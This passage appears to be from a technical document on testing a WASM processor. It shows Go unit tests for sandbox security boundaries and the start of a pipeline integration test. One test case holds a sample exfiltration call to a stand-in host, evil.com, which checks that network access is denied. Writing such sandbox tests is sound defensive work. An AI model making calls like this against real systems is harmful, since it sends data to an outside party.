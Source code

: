 ```go
```

#### 2. **Security Boundary Tests**
```go
func TestSecuritySandbox(t *testing.T) {
    tests := []struct {
        name           string
        wasmCode       string
        capabilities   Capabilities
        expectError    bool
        errorContains  string
    }{
        {
            name:     "unauthorized_network_access",
            wasmCode: `http_get("https://evil.com/steal-data")`,
            capabilities: Capabilities{Network: NetworkCapability{Enabled: false}},
            expectError: true,
            errorContains: "network access denied",
        },
        {
            name:     "memory_limit_exceeded",
            wasmCode: `allocate_large_buffer(1_000_000_000)`, // 1GB
            capabilities: DefaultCapabilities(),
            expectError: true,
            errorContains: "memory limit exceeded",
        },
    }
    
    for _, tt := range tests {
        t.Run(tt.name, func(t *testing.T) {
            wasmBytes := compileTestCode(tt.wasmCode)
            processor := NewWasmProcessor(wasmBytes, tt.capabilities)
            
            _, err := processor.Process([]byte(`{}`))
            
            if tt.expectError {
                require.Error(t, err)
                require.Contains(t, err.Error(), tt.errorContains)
            } else {
                require.NoError(t, err)
            }
        })
    }
}
```

### Integration Testing

#### 1. **End-to-End Pipeline Tests**
```go
func TestWasmProcessorInPipeline(t *testing.T) {
    // Create test pipeline with WASM processor
    pipeline := &Pipeline{
        Sources: []Component{
            {ID: "test-source", Type: "mock"},
        },
        Processors: []Component{
            {
                ID:   "wasm-processor",
                Type: "wasm",
                Config: map[string]interface{}{
                    "wasm_file": "test_processor.wasm",
                },
```